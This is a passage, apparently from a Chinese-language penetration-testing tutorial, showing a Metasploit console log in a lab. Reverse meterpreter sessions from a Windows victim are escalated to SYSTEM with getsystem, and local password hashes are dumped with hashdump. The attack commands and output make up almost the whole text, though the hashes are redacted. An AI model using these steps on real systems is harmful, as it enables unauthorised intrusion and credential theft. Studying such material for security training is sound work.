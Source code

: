 我们已经获得了两个会话：

```bash
msf auxiliary(server/browser_autopwn) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  XXX-91962AAC0C1\xxx @ XXX-91962AAC0C1  172.16.56.1:3333 -> 172.16.56.152:1124 (172.16.56.152)
  2         meterpreter x86/windows  XXX-91962AAC0C1\xxx @ XXX-91962AAC0C1  172.16.56.1:3333 -> 172.16.56.152:1126 (172.16.56.152)

# first
msf auxiliary(server/browser_autopwn) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: XXX-91962AAC0C1\xxx
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

# second
msf auxiliary(server/browser_autopwn) > sessions 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: XXX-91962AAC0C1\xxx
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > run hashdump

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 959fbd30b1cc734cc231a901c250a078...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...


Administrator:500:xxxxx:xxxxx:::
Guest:501:xxxxx:xxxxx:::
xxx:1000:xxxxx:xxxxx:::
```
